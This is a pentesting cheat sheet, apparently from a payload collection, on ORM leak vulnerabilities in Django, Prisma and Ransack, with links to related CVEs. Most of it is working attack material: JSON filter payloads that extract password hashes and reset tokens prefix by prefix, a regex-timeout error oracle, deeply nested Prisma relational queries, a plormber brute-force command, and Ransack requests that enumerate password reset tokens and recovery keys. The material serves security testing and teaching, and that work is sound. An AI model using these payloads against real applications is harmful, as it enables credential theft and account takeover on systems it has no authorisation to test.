 # ORM Leak

An ORM leak vulnerability occurs when sensitive information, such as database structure or user data, is unintentionally exposed due to improper handling of ORM queries. This can happen if the application returns raw error messages, debug information, or allows attackers to manipulate queries in ways that reveal underlying data.


## Summary

* [CVE](#cve)
* [Django (Python)](#django-python)
    * [Query filter](#query-filter)
    * [Relational Filtering](#relational-filtering)
        * [One-to-One](#one-to-one)
        * [Many-to-Many](#many-to-many)
    * [Error-based leaking - ReDOS](#error-based-leaking---redos)
* [Prisma (Node.JS)](#prisma-nodejs)
    * [Relational Filtering](#relational-filtering-1)
        * [One-to-One](#one-to-one-1)
        * [Many-to-Many](#many-to-many-1)
* [Ransack (Ruby)](#ransack-ruby)
* [Resources](#resources)


## CVE

* [CVE-2023-47117: Label Studio ORM Leak](https://github.com/HumanSignal/label-studio/security/advisories/GHSA-6hjj-gq77-j4qw)
* [CVE-2023-31133: Ghost CMS ORM Leak](https://github.com/TryGhost/Ghost/security/advisories/GHSA-r97q-ghch-82j9)
* [CVE-2023-30843: Payload CMS ORM Leak](https://github.com/payloadcms/payload/security/advisories/GHSA-35jj-vqcf-f2jf)


## Django (Python)

The following code is a basic example of an ORM querying the database.

```py
users = User.objects.filter(**request.data)
serializer = UserSerializer(users, many=True)
```

The problem lies in how the Django ORM uses keyword parameter syntax to build QuerySets. By utilizing the unpack operator (`**`), users can dynamically control the keyword arguments passed to the filter method, allowing them to filter results according to their needs.


### Query filter

The attacker can control the column to filter results by. 
The ORM provides operators for matching parts of a value. These operators can utilize the SQL LIKE condition in generated queries, perform regex matching based on user-controlled patterns, or apply comparison operators such as < and >.


```json
{
    "username": "admin",
    "password__startswith": "p"
}
```

Interesting filter to use:

* `__startswith`
* `__contains`
* `__regex`


### Relational Filtering

Let's use this great example from [PLORMBING YOUR DJANGO ORM, by Alex Brown](https://www.elttam.com/blog/plormbing-your-django-orm/)
![](https://www.elttam.com/assets/images/blog/2024-06-24-plormbing-your-django-orm/UML-example-app-simplified-highlight1.png)

We can see 2 type of relationships:

* One-to-One relationships
* Many-to-Many Relationships


#### One-to-One

Filtering through user that created an article, and having a password containing the character `p`.

```json
{
    "created_by__user__password__contains": "p"
}
```


#### Many-to-Many

Almost the same thing but you need to filter more.

* Get the user IDS: `created_by__departments__employees__user__id`
* For each ID, get the username: `created_by__departments__employees__user__username` 
* Finally, leak their password hash: `created_by__departments__employees__user__password`

Use multiple filters in the same request:

```json
{
    "created_by__departments__employees__user__username__startswith": "p",
    "created_by__departments__employees__user__id": 1
}
```


### Error-based leaking - ReDOS

If Django use MySQL, you can also abuse a ReDOS to force an error when the filter does not properly match the condition.

```json
{"created_by__user__password__regex": "^(?=^pbkdf1).*.*.*.*.*.*.*.*!!!!$"}
// => Return something

{"created_by__user__password__regex": "^(?=^pbkdf2).*.*.*.*.*.*.*.*!!!!$"}  
// => Error 500 (Timeout exceeded in regular expression match)
```


## Prisma (Node.JS)

**Tools**:

* [elttam/plormber](https://github.com/elttam/plormber) - tool for exploiting ORM Leak time-based vulnerabilities
    ```ps1
    plormber prisma-contains \
        --chars '0123456789abcdef' \
        --base-query-json '{"query": {PAYLOAD}}' \
        --leak-query-json '{"createdBy": {"resetToken": {"startsWith": "{ORM_LEAK}"}}}' \
        --contains-payload-json '{"body": {"contains": "{RANDOM_STRING}"}}' \
        --verbose-stats \
        https://some.vuln.app/articles/time-based;
    ```

**Example**:

Example of an ORM leak in Node.JS with Prisma.

```js
const posts = await prisma.article.findMany({
    where: req.query.filter as any // Vulnerable to ORM Leaks
})
```

Use the include to return all the fields of user records that have created an article

```json
{
    "filter": {
        "include": {
            "createdBy": true
        }
    }
}
```

Select only one field

```json
{
    "filter": {
        "select": {
            "createdBy": {
                "select": {
                    "password": true
                }
            }
        }
    }
}
```


### Relational Filtering

#### One-to-One

* [`filter[createdBy][resetToken][startsWith]=06`](http://127.0.0.1:9900/articles?filter[createdBy][resetToken][startsWith]=)

#### Many-to-Many

```json
{
    "query": {
        "createdBy": {
            "departments": {
                "some": {
                    "employees": {
                        "some": {
                            "departments": {
                                "some": {
                                    "employees": {
                                        "some": {
                                            "departments": {
                                                "some": {
                                                    "employees": {
                                                        "some": {
                                                            "{fieldToLeak}": {
                                                                "startsWith": "{testStartsWith}"
                                                            }
                                                        }
                                                    }
                                                }
                                            }
                                        }
                                    }
                                }
                            }
                        }
                    }
                }
            }
        }
    }
}
```


## Ransack (Ruby)

Only in Ransack < `4.0.0`.

![](https://assets-global.website-files.com/5f6498c074436c349716e747/63ceda8f7b5b98d68365bdee_ransack_bruteforce_overview-p-1600.png)

* Extracting the `reset_password_token` field of a user
    ```ps1
    GET /posts?q[user_reset_password_token_start]=0 -> Empty results page
    GET /posts?q[user_reset_password_token_start]=1 -> Empty results page
    GET /posts?q[user_reset_password_token_start]=2 -> Results in page

    GET /posts?q[user_reset_password_token_start]=2c -> Empty results page
    GET /posts?q[user_reset_password_token_start]=2f -> Results in page
    ```

* Target a specific user and extract his `recoveries_key`
    ```ps1
    GET /labs?q[creator_roles_name_cont]=​superadmin​​&q[creator_recoveries_key_start]=0
    ```


## Resources

- [ORM Injection - HackTricks - July 30, 2024](https://book.hacktricks.xyz/pentesting-web/orm-injection)
- [ORM Leak Exploitation Against SQLite - Louis Nyffenegger - July 30, 2024](https://pentesterlab.com/blog/orm-leak-with-sqlite3)
- [plORMbing your Django ORM - Alex Brown - June 24, 2024](https://www.elttam.com/blog/plormbing-your-django-orm/)
- [plORMbing your Prisma ORM with Time-based Attacks - Alex Brown - July 9, 2024](https://www.elttam.com/blog/plorming-your-primsa-orm/)
- [QuerySet API reference - Django - August 8, 2024](https://docs.djangoproject.com/en/5.1/ref/models/querysets/)
- [Ransacking your password reset tokens - Lukas Euler - January 26, 2023](https://positive.security/blog/ransack-data-exfiltration)